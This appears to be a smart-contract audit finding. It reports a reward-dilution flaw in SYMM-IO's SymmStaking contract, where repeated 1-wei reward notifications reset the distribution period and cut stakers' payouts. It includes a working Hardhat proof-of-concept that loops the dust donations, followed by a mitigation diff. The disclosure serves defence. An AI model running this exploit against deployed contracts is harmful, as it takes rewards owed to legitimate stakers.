 Quaint Steel Dragon

Medium

# Attacker Can Disrupt Reward Periods to Reduce Legitimate Users' Rewards

### Summary

Malicious actors can repeatedly inject minuscule rewards to extend the active reward distribution period indefinitely. This manipulation drastically reduces the reward rate over time, causing legitimate users to receive significantly fewer rewards than expected. The core flaw lies in how new rewards are merged with ongoing distributions, allowing attackers to reset the reward clock and dilute payout rates.

### Root Cause

The [`_addRewardsForToken`](https://github.com/SYMM-IO/token/blob/1d014156b1d9f0ab3259026127b9220eb2da3292/contracts/staking/SymmStaking.sol#L366C1-L379C3) function combines new rewards with residual amounts from ongoing periods but recalculates the rate over a **full initial duration** (1 week) each time. This design allows any user to:
1. Add trivial rewards during an active period
2. Reset the distribution timeline to the full duration
3. Exponentially decay the reward rate with each attack iteration

The flawed duration reset enables indefinite reward suppression through low-cost, repeated transactions.

### Internal Pre-conditions

1. At least one reward token must be whitelisted via `configureRewardToken()`
2. An active reward period exists for the target token (i.e., `periodFinish > block.timestamp`)

### External Pre-conditions

1. Attacker possesses any amount (even minimal) of the reward token
2. Reward token must be transferrable (no blocking of small transfers)

### Attack Path

1. **Initial Setup**: Admin configures reward  with substantial rewards (e.g., 1000 USDT)
2. **Attack Execution**:
   - Attacker waits until partial time has elapsed (e.g., 1 day)
   - Calls `notifyRewardAmount()` with 1 wei of rewards
   - Contract combines residual rewards + 1 wei, spreads over **full 1 week duration**
   - Repeats this process multiple times, each resetting the period end timestamp
3. **Impact**: 
   - Reward rate (`state.rate`) decreases exponentially with each extension
   - Users accrue rewards at progressively slower rates
   - Significant portion of rewards remains undistributed after expected period

### Impact

Attackers can systematically reduce reward rates by orders of magnitude. The PoC demonstrates users receiving ≤66% of expected rewards despite full term completion. This constitutes direct financial loss through manipulated reward mechanics.

### PoC

```typescript
it("PoC: attacker can disrupt the reward by donate and notify small reward amounts to extend the reward period", async function () {
    // assume attacker has 100 reward token
    const attacker = user2
    await usdtToken.connect(admin).transfer(attacker.address, 100)

    // timings
    const startTime =  await time.latest()
    const oneWeekInSeconds = 7 * 24 * 60 * 60;
    const firstRewardEndTime = startTime + oneWeekInSeconds

    // Setup initial stake and rewards
    const deposit = e(100).toString()
    await stakingToken.connect(user1).approve(await symmStaking.getAddress(), deposit)
    await symmStaking.connect(user1).deposit(deposit, user1.address)

    const rewardAmountInEther = e(1000)
    const rewardAmount = rewardAmountInEther.toString();
    await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
    await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
    await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])
    
    // attacker start donation attacks
    const numberOfDonationAttacks = 10
    const increaseDuration = oneWeekInSeconds/numberOfDonationAttacks
    for (let i = 0; i < numberOfDonationAttacks; i++) {
        await time.increase(increaseDuration);

        // donate one SYMM only
        await usdtToken.connect(attacker).approve(await symmStaking.getAddress(), "1")
        await symmStaking.connect(attacker).notifyRewardAmount([await usdtToken.getAddress()], ["1"])
    }
    
    //after the full period of the first reward
    expect(await time.latest()).to.be.above(firstRewardEndTime)
    
    //**POC**: Verify reward degradation
    const blanceBefore = await usdtToken.balanceOf(user1.address)
    await symmStaking.connect(user1).claimRewards()
    const balanceAfter = await usdtToken.balanceOf(user1.address)
    const claimedRewards = balanceAfter - blanceBefore

    expect(claimedRewards).to.be.lessThanOrEqual((rewardAmountInEther/ 3n) *2n) // <666e18 => <66% of 1000e18
})
```

### Mitigation


#### Ensure Reward Rate Only Increases  

The modified `_addRewardsForToken` function guarantees that reward rates never decrease when new rewards are added. This neutralizes manipulation attempts by forcing attackers to either:  
1. **Increase the rate** (costing them funds without benefit), or  
2. **Reset the duration** only when the rate improves for users.  

```diff
diff --git a/token/contracts/staking/SymmStaking.sol b/token/contracts/staking/SymmStaking.sol
index 1b7057c..f7cc868 100644
--- a/token/contracts/staking/SymmStaking.sol
+++ b/token/contracts/staking/SymmStaking.sol
@@ -367,15 +367,26 @@ contract SymmStaking is Initializable, AccessControlEnumerableUpgradeable, Reent
                TokenRewardState storage state = rewardState[token];

                if (block.timestamp >= state.periodFinish) {
+                       // Start new period if none active
                        state.rate = amount / state.duration;
+                       state.periodFinish = block.timestamp + state.duration;
                } else {
                        uint256 remaining = state.periodFinish - block.timestamp;
                        uint256 leftover = remaining * state.rate;
-                       state.rate = (amount + leftover) / state.duration;
+                       uint256 newRate = (amount + leftover) / state.duration;
+
+                       if (newRate < state.rate) {
+                               // CASE 1: If new rate decreases, boost rate for REMAINING TIME
+                               state.rate = (leftover + amount) / remaining; // Rate increases
+                               // Period finish remains unchanged
+                       } else {
+                               // CASE 2: If new rate increases, reset duration with higher rate
+                               state.rate = newRate;
+                               state.periodFinish = block.timestamp + state.duration;
+                       }
                }

                state.lastUpdated = block.timestamp;
-               state.periodFinish = block.timestamp + state.duration;
        }

        /**
```

#### Key Behavioral Guarantees  

| Scenario                | Reward Rate Change | Period Duration Change |  
|-------------------------|--------------------|------------------------|  
| **New Rate < Current**  | **Increases**      | Unchanged              |  
| **New Rate ≥ Current**  | Increases          | Reset to Full Duration |  

#### Supplemental Recommendations  

1. **Minimum Reward Threshold**  
   Prevent dust attacks by requiring meaningful reward amounts:  
   ```solidity
   function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) external {
       // ...
       for (uint256 i = 0; i < len; i++) {
           if (amounts[i] < 1e18) revert("Min reward 1 token");
       }
   }
   ```

2. **Access Control**  
   Restrict reward notifications to authorized roles:  
   ```solidity
   function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) 
       external 
       onlyRole(REWARD_MANAGER_ROLE) 
   ```
